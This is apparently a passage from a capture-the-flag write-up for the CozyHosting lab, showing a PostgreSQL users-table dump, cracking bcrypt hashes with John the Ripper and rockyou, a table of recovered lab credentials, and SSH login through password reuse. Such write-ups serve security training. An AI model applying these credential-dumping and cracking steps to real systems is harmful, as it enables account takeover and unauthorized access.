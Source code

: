 Move to the `cozyhosting` database, and list tables :

```text
\connect cozyhosting
You are now connected to database "cozyhosting" as user "postgres".
\dt
List of relations
Schema | Name  | Type  |  Owner
--------+-------+-------+----------
public | hosts | table | postgres
public | users | table | postgres
(2 rows)
```

The `users` table could have some useful information :

```text
select * from users;
name    |                           password                           | role
-----------+--------------------------------------------------------------+-------
kanderson | $2a$10$E/Vcd9ecflmPudWeLSEIv.cvK6QjxjWlWXpij1NVNV3Mm6eH58zim | User
admin     | $2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm | Admin
(2 rows)
```

We have 2 hashes that we can try to crack on our host:

file `pgsqlhashes.txt` :

```text
$2a$10$E/Vcd9ecflmPudWeLSEIv.cvK6QjxjWlWXpij1NVNV3Mm6eH58zim
$2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm 
```

```shell
john --wordlist /usr/share/wordlists/rockyou.txt ./pgsqlhashes.txt
```

We can recover `admin` password !

Credentials :

| Username  | email | Password             | Hash                                                           | Usage                |
| --------- | ----- | -------------------- | -------------------------------------------------------------- | -------------------- |
| josh      |       |                      |                                                                |                      |
| postgres  |       | Vg&nvzAQ7XxR         |                                                                | PostgreSQL           |
| kanderson |       | MRdEQuv6~6P9         |                                                                | web app on port 8080 |
| admin     |       | **manchesterunited** | `$2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm` |                      |
| kanderson |       |                      | `$2a$10$E/Vcd9ecflmPudWeLSEIv.cvK6QjxjWlWXpij1NVNV3Mm6eH58zim` |                      |

With all these credentials, we can test SSH access (port 22 was found open by nmap).

It appears that `josh` user have reused his password `manchesterunited` :

```shell
ssh josh@cozyhosting.htb
```
